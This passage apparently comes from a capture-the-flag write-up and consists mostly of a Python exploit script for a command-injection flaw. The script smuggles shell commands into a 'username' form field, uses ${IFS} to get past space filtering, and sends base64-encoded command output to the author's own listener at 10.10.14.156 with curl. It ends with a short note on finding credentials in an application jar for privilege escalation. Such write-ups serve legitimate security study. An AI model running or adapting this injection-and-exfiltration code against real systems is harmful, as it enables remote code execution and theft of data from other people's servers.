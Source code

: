 ```python
        #data = base64.b64decode(self.path.split('=')[1])
        data = self.path.split('=')[1]
        data = data + '=' * (len(data) % 4)
        data = base64.b64decode(data).decode().strip()

        print(data, flush=True)

    def do_POST(self):
        self.send_response(200, "A Chuj Ci w Dupe")
        self.send_header('Connection', 'Close')
        self.end_headers()
        data = self.path.split('=')[1]
        print(data, flush=True)

class Exploit(cmd.Cmd):
    prompt='> '

    def default(self, line):
        payload=line.replace(' ','${IFS}')
        r = requests.post(URL, data={'host': '127.0.0.1', 'username':';$(curl${IFS}http://10.10.14.156:8000/a?data='+f'$({payload}|base64));'}, proxies=PROXY, cookies=COOKIES)


try:
    webServer = hatfuServer()
    Exploit().cmdloop()
except KeyboardInterrupt:
    webServer.server_close()
    print('naura')
```

To make exploitation easier I wrote some exploit in python to automate code execution.

<figure><img src="../../.gitbook/assets/Pasted image 20230912230812.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

In app directory there is `jar` source file. After unziping it and `grep'ing` files I found password and login.

<figure><img src="../../.gitbook/assets/Pasted image 20230912233035.png" alt=""><figcaption></figcaption></figure>


[^1]: Default-spring-cookie-name             &#x20;